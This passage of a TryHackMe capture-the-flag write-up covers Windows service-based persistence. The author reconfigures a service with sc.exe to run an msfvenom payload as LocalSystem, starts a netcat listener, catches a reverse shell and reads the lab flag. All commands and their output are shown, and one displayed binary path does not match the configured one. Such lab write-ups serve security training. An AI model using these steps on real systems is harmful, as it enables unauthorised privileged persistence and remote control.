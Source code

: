 8. `sc.exe config <SERVICE NAME> binPath= "<MSFVENOM PAYLOAD PATH>" start= auto obj= "LocalSystem"` from the compromised Windows machine to modify the configuration settings of our target service (THMservice3) by replacing the BINARY_PATH_NAME with our paylaod's file path and its SERVICE_START_NAME to "LocalSystem", which specifies that this service will now run under the Local System account, which is a highly privileged built-in account in Windows
```PowerShell
PS C:\Users\Administrator> sc.exe config THMservice3 binPath= "C:\Users\Administrator\Payload.exe" start= auto obj= "LocalSystem"
[SC] ChangeServiceConfig SUCCESS
```
9. `sc.exe qc <SERVICE NAME>` from the compromised Windows machine to retrieve and display onto our terminal the configuration and settings for the service that we just modified (THMservice3) 
```PowerShell
PS C:\Users\Administrator> sc.exe qc THMservice3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMservice3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\rev-svc.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMservice3
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
10. `nc -lvnp <PORT NUMBER>` from our Linux attack machine to open up a netcat listener that'll listen for any inbound connection
```Bash
root@ip-10-10-44-151:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
11. `sc.exe start <SERVICE NAME>` from our compromised Windows machine to start the service that we just modified (THMservice3), which executed our payload that resulted in a reverse shell being created which then connected back to our netcat listener that's running on our attack machine
```PowerShell
PS C:\Users\Administrator> sc.exe start THMservice3

SERVICE_NAME: THMservice3
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 1112
        FLAGS              :
```
```Bash
root@ip-10-10-44-151:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.180.50 49850 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
12. `C:\flags\flag8.exe` from our reverse shell to run the **flag8**.exe program, which ended up displaying this task's flag onto our terminal
```PowerShell
C:\Windows\system32>C:\flags\flag8.exe
C:\flags\flag8.exe
THM{IN_PLAIN_SIGHT}
```